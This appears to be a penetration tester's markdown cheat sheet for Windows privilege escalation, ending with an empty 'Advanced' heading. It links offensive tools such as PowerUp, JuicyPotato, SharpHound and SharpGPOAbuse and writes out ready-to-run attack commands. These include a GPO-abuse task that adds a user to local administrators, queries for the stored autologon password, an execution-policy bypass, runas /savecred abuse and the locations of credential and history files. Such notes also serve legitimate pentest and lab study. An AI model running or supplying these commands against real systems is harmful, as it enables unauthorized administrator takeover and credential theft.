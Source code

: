 # Window Privesc "Source Links"

## PrintSpoofer.exe
- Link
```
https://github.com/itm4n/PrintSpoofer
```

## JuicyPotato
- Link
```
https://github.com/ohpe/juicy-potato
```

## Powerup
- Link
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

powershell -ep bypass
.\PowerUp.ps1
Invoke-PrivescAudit
```

## PrivescCheck
- Link
```
https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1
```

## Powerview
- Link
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

## SharpHound
- Link
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```

## PowerGPOAbuse
- Link
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
- Usage
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```

## SharpGPOAbuse
- Link
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
___________________________________________________________________________________________________________________________________________________________________________________________________________________________

# Window Privesc Normal
## PowerUp
- Check Default Username and Password from Registry
```
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v AutoAdminLogon
```

- Check the service that current user can modify
```
Get-ModifiableService
```

- Check the unquoted service name
```
Get-ServiceUnquoted
```

## PrivescCheck
- Load ps1 script and run 
```
powershell -ep bypass -c ". .\PrivescCheck.ps1;Invoke-PrivescCheck "
```

- Check window services for user escalating
```AInvoke-ServiceAudit
```

- Check outdated and potentially vulnerable software
```
Invoke-AuditInstalledPrograms
```
## Unattendend Installation Files

- Default File Location
```
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Autounattended.xml
```

## Window Credential Manager (Manual)
- Check Stored Credential
```
cmdkey /list
```

- Login using saved credentials ( can also run malicious shell.exe instead of cmd )
```
runas.exe /savecred /user:administrator cmd
```

## Powershell History
- Check history file location
```
C:\Users\student\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_History.txt
```

## Insecure Service Permissions 
- Check the vulnerable service with PowerUp, AccessChk or metasploit
- Check permissions by ACL or by all means
- Modify the service configuration
- Restart the service
```
Restart-Service -name "Service Name"
```

## Registry Autorun
- Check the auto run file permission
```
Get-Acl -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\run | Format-List
```
___________________________________________________________________________________________________________________________________________________________________________________________________________________________

# Advanced PrivESC Techniques


